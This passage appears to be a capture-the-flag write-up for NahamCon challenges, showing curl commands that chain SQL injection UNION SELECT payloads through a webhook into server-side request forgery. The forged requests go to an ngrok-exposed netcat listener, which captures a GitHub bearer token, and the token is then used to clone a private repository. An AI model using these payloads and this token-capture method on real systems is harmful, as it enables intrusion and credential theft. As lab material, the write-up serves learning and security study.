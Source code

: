 We detected SQL Injection vulnerability.
Try `UNION SELECT` payload:

```console
$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=0+UNION+SELECT+1,2,3" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Job is already set as completed\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=0+UNION+SELECT+0,2,3" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Job is already set as completed\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=0+UNION+SELECT+0,0,3" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"HTTP scheme missing\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=0+UNION+SELECT+0,0,'http://example.com/'" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Invalid Response, Expecting JSON Response\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=0+UNION+SELECT+0,0,'http://0.tcp.jp.ngrok.io:11995/'" -b "token-for-prod=$JWT"
```

When using the third value of UNION SELECT as a URL, a request is sent to the URL.
To check the request contents, we'll listen with netcat on my machine and make it accessible globally using Ngrok.
Then, we'll have the server access the Ngrok URL.

request:

```text
$ nc -lnvp 80
listening on [any] 80 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54578
GET / HTTP/1.1
Host: 0.tcp.jp.ngrok.io:11995
Accept: */*
User-Agent: curl
Authorization: Bearer github_pat_11BIS(snip)
Flag: flag{ed3d949912f8918009a2ba7382c5406a}
```

The flag is accepted as GitGood at SSuRFing challenge.

### 7. Take A Peak

In the previous GitGood at SSuRFing challenge, we can get the GitHub Bearer token.
Using the token, checking the repositories owned by that user who issued that token.

<details><summary>GitHub API result:</summary></details>

Got <https://github.com/NahamConIndustries/server-code.git> so let's clone.

```console
$ git clone --quiet https://github_pat_11BIS(snip)@github.com/NahamConIndustries/server-code

$ tree server-code
server-code
├── index.php
└── README.md

1 directory, 2 files
```
